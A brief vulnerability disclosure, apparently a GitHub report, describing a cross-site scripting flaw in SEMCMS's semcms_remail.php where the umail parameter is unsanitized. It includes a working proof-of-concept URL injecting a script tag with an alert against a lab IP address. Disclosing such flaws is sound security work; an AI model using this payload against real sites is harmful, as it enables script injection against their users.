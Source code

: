 I find a DOM Based XSS in the [SEMCMS](http://www.sem-cms.com/)  
Target URL is `http://192.168.66.129/s/b/semcms_remail.php?type=ok&umail=1`, the umail parameter is unsanitized which result a pop up.  
when we input the url like  `http://192.168.66.129/s/b/semcms_remail.php?type=ok&umail=1'"><script>alert(1)</script>`  
![](img/D2.jpg)
![](img/DD1.jpg)
